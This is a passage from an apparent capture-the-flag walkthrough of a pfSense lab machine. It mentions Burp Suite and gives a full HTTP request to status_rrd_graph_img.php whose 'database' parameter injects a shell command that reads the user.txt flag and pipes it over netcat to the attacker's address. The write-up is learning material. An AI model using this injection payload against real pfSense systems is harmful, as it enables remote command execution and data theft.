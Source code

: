 ![Bubsuit extracting filesystem files](../../Assets/walktrhough-assets/sense-burbsuit.png)
Now we can cat the file we see almost all the sytemfiles for `pfsense`.
We can `cat` the `user.txt` and `root.txt`.

## User.txt

```bash
GET /status_rrd_graph_img.php?database=queues;cat+${HOME}home${HOME}rohit${HOME}user.txt|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```